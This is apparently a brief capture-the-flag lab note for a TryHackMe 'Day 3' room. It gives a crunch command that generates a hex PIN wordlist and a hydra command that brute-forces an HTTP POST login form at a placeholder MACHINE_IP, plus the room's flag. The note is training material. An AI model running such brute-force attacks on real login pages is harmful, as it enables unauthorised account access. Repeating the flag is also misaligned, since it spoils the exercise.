 
# [Day 3] Brute-forcing Hydra is Coming to Town

https://www.youtube.com/watch?v=UKAchyX7kDY


alternate
https://www.youtube.com/watch?v=zkFsslIkF-Y

```

crunch 3 3 0123456789ABCDEF -o 3digits.txt

hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000



THM{pin-code-brute-force}


```